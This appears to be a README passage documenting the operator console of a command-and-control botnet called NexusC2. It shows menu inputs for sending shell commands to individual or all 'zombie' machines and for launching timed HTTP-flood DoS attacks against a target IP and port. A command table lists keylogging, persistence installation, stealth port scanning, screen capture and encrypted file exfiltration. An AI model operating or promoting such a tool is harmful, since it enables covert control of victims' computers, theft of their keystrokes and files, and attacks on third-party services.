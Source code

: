 ## Command Reference

### Master Control Commands

The master interface provides comprehensive command capabilities:

#### Zombie Management
- Monitor zombie status and activity
- View detailed system information
- Send commands to individual or multiple zombies
- Download command history and results
- Generate system metrics reports

#### Command Distribution
```
# Execute system command on specific zombie
> 2                           # Select "Send Command to Zombies"
> zombie_3a7b9f2c             # Enter zombie ID
> whoami                      # Enter command

# Execute command on all zombies
> 2                           # Select "Send Command to Zombies"
> all                         # Target all zombies
> systeminfo                  # Enter command
```

#### DDoS Testing Module
```
# Initialize DDoS test with HTTP flood
> 3                           # Select "Initialize DoS Attack"
> http                        # Attack type
> 192.168.1.100               # Target IP
> 80                          # Target port
> 30                          # Duration in seconds
> 1                           # Use all available zombies
```

### Special Commands

NexusC2 implements numerous specialized commands with custom handlers:

| Command | Description | Implementation |
|---------|-------------|----------------|
| `profile` | Gather comprehensive system information | Multi-component system profiling |
| `screenshot` | Capture system screen | Platform-specific screen capture |
| `download <url> <path>` | Download file from URL | Secure file transfer with integrity verification |
| `upload <path> <url>` | Upload file to URL | Encrypted file exfiltration |
| `persist` | Install persistence mechanism | Platform-specific persistence implementation |
| `dns_lookup <domain>` | Perform DNS resolution | Custom DNS client implementation |
| `scan_ports <ip> <ports>` | Scan network ports | Stealth port scanning module |
| `keylog_start` | Begin keystroke capture | Platform-specific keylogger |
| `keylog_stop` | End keystroke capture | Terminates and reports keylog data |
| `dos_attack <type> <target> <port> <duration>` | Execute DoS attack | Multiple attack vector implementation |
